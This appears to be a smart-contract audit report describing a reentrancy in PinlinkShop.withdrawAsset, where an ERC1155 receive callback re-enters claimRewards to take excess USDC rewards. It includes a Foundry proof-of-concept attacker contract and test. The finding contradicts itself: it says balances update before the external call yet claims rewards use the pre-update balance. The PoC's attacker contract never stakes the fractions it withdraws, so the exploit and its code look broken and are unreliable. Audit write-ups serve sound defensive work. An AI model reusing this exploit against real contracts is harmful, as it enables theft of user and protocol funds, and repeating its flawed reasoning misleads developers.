 Keen Iris Lizard

High

# Reentrancy Risk in FractionalAssets Transfer

### Summary

An external attacker can exploit the safeTransferFrom call in PinlinkShop.withdrawAsset via the onERC1155Received callback to reenter and claim USDC rewards before state updates, leading to disproportionate reward extraction.

### Root Cause

In PinlinkShop.withdrawAsset:

```solidity
IFractionalAssets(fractionalAssets).safeTransferFrom(address(this), receiver, tokenId, amount, "");
```
The external call occurs after transferBalances updates stakedBalances, allowing reentrancy into claimRewards before the transaction finalizes.

### Internal Pre-conditions

1. Attacker controls a contract with staked fractions and pending rewards.
2. Asset is enabled with accrued USDC rewards.

### External Pre-conditions

1. Attacker calls withdrawAsset with their malicious contract as receiver.

### Attack Path

1. Attacker stakes 100 fractions (tokenId=1) in PinlinkShop.
2. OPERATOR deposits 100 USDC rewards, fully dripped after 1 day.
3. Attacker calls withdrawAsset for 50 fractions, triggering onERC1155Received.
4. Callback reenters claimRewards, claiming 100 USDC based on the pre-update balance (100 fractions).
5. withdrawAsset completes, reducing stakedBalances to 50 fractions, but the attacker keeps 100 USDC.

### Impact

- Attacker extracts excess USDC (e.g., 100 USDC instead of 50 USDC), violating reward proportionality.
- Protocol loses funds, undermining trust and staking integrity.

### PoC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.27;

import {Test} from "forge-std/Test.sol";
import {PinlinkShop} from "../src/marketplaces/pinlinkShop.sol";
import {FractionalAssets} from "../src/fractional/FractionalAssets.sol";
import {CentralizedOracle} from "../src/oracles/CentralizedOracle.sol";
import {IERC20} from "openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";
import {IERC1155Receiver} from "openzeppelin-contracts/contracts/token/ERC1155/IERC1155Receiver.sol";

contract MaliciousReceiver is IERC1155Receiver {
    PinlinkShop shop;
    address fractionalAssets;
    uint256 tokenId;

    constructor(address _shop, address _fractionalAssets, uint256 _tokenId) {
        shop = PinlinkShop(_shop);
        fractionalAssets = _fractionalAssets;
        tokenId = _tokenId;
    }

    function onERC1155Received(address, address, uint256, uint256, bytes calldata) external override returns (bytes4) {
        shop.claimRewards(fractionalAssets, tokenId);
        return this.onERC1155Received.selector;
    }

    function onERC1155BatchReceived(address, address, uint256[] calldata, uint256[] calldata, bytes calldata)
        external
        override
        returns (bytes4)
    {
        return this.onERC1155BatchReceived.selector;
    }
}

contract PinlinkReentrancyTest is Test {
    PinlinkShop shop;
    FractionalAssets assets;
    address pinToken = address(0x1);
    address usdcToken = address(0x2);
    address owner = address(this);
    address attacker;

    function setUp() public {
        CentralizedOracle oracle = new CentralizedOracle(pinToken, 1e18);
        assets = new FractionalAssets("https://example.com/");
        shop = new PinlinkShop(pinToken, address(oracle), usdcToken);

        assets.grantRole(assets.MINTER_ROLE(), address(shop));
        shop.grantRole(shop.DEFAULT_ADMIN_ROLE(), owner);
        shop.grantRole(shop.OPERATOR_ROLE(), owner);

        vm.startPrank(owner);
        assets.mint(1, address(this), 100);
        shop.enableAsset(address(assets), 1, address(this));
        deal(usdcToken, address(shop), 100e6);
        shop.depositRewards(address(assets), 1, 100e6, 1 days);
        vm.warp(block.timestamp + 2 days);
        vm.stopPrank();

        attacker = address(new MaliciousReceiver(address(shop), address(assets), 1));
        vm.prank(address(this));
        assets.safeTransferFrom(address(this), address(shop), 1, 100, "");
    }

    function testReentrancyExploit() public {
        uint256 initialUSDC = IERC20(usdcToken).balanceOf(attacker);
        vm.prank(attacker);
        shop.withdrawAsset(address(assets), 1, 50, attacker);

        uint256 finalUSDC = IERC20(usdcToken).balanceOf(attacker);
        assertEq(finalUSDC - initialUSDC, 100e6); // Claims full 100 USDC
        assertEq(shop.getPendingRewards(address(assets), 1, attacker), 0); // Post-withdrawal: 0 rewards
    }
}
```

### Mitigation

- Add OpenZeppelin’s ReentrancyGuard and mark withdrawAsset as nonReentrant.